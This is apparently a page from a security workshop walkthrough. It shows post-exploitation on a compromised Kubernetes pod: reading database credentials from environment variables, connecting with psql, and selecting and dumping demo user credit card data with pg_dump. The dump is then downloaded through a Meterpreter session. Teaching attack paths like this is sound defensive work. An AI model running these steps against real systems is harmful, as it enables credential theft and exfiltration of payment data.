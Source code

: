 ```yaml
---
id: exploit_host
title: Exploiting the remote host
sidebar_label: Exploit
---
```


## Exploiting the host

Now that we have access to the target host, lets see if there is anything interesting configured in the environment.  
If we take a look at the environment variables, we can see that this is a pod running on Kubernetes and that there are several other services in the same namespace.

We can see the Kubernetes API server, a payment service, a search service (which judging by the HOSTNAME appears to be the host we have gotten access to), and a database service including connection details.

Eventhough the database credentials were retrieved from a Kubernetes secret, they are still available to us as plain text in the environment variables.

```shell
env

# truncated output

HOSTNAME=search-54fc49cd9d-b7nx7

SEARCH_SERVICE_HOST=10.43.38.166
SEARCH_SERVICE_PORT=9090

PAYMENTS_SERVICE_HOST=10.43.70.143
PAYMENTS_SERVICE_PORT=9090

KUBERNETES_SERVICE_HOST=10.43.0.1
KUBERNETES_SERVICE_PORT=443

DATABASE_SERVICE_HOST=10.43.6.193
DATABASE_SERVICE_PORT=5432
DATABASE_USER=root
DATABASE_PASSWORD=please_change_me_barry
```

We can install a postgres client on the host and try to connect to the database host with the found credentials.

```shell
apt update && apt install -y postgresql-client
```

Since the database details are stored in environment variables, we can just use the variables themselves as values.

```shell
PGPASSWORD=$DATABASE_PASSWORD psql -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w -d $DATABASE_NAME
```

Now that we have access to the database, we can see if there is anything interesting in there.  
We can inspect the databases..

```shell
\l

                             List of databases
   Name    | Owner | Encoding |  Collate   |   Ctype    | Access privileges
-----------+-------+----------+------------+------------+-------------------
 postgres  | root  | UTF8     | en_US.utf8 | en_US.utf8 |
 template0 | root  | UTF8     | en_US.utf8 | en_US.utf8 | =c/root          +
           |       |          |            |            | root=CTc/root
 template1 | root  | UTF8     | en_US.utf8 | en_US.utf8 | =c/root          +
           |       |          |            |            | root=CTc/root
 users     | root  | UTF8     | en_US.utf8 | en_US.utf8 |
(4 rows)
```

the users..

```shell
\du+

                                          List of roles
 Role name |                         Attributes                         | Member of | Description
-----------+------------------------------------------------------------+-----------+-------------
 root      | Superuser, Create role, Create DB, Replication, Bypass RLS | {}        |
```

the tables..

```shell
\d

            List of relations
 Schema |     Name     |   Type   | Owner
--------+--------------+----------+-------
 public | users        | table    | root
 public | users_id_seq | sequence | root
(2 rows)
```

and finally the data of any tables we are interested in.

```shell
SELECT * FROM users;

 id |    name     |   creditcard   | ccv
----+-------------+----------------+-----
  1 | Nic Jackson | 1234-5678-9012 | 123
  2 | Erik Veld   | 5678-9012-1234 | 567
(2 rows)
```

Lets exit out of the postgres client..

```shell
\q
```

and grab a dump of the database including all the user data and creditcard information.

```shell
PGPASSWORD=$DATABASE_PASSWORD pg_dump -h $DATABASE_SERVICE_HOST -p $DATABASE_SERVICE_PORT -U $DATABASE_USER -w $DATABASE_NAME > backup.sql
```

We can now close the remote shell..

```shell
exit

meterpreter >
```

and download the file to our local machine.

```shell
meterpreter > download backup.sql

[*] Downloading: backup.sql -> backup.sql
[*] Downloaded 2.37 KiB of 2.37 KiB (100.0%): backup.sql -> backup.sql
[*] download   : backup.sql -> backup.sql
```

Lets background the session, so we can interact with it again at a later date.

```shell
meterpreter > background

[*] Backgrounding session 1...
msf6 exploit(multi/handler) >
```
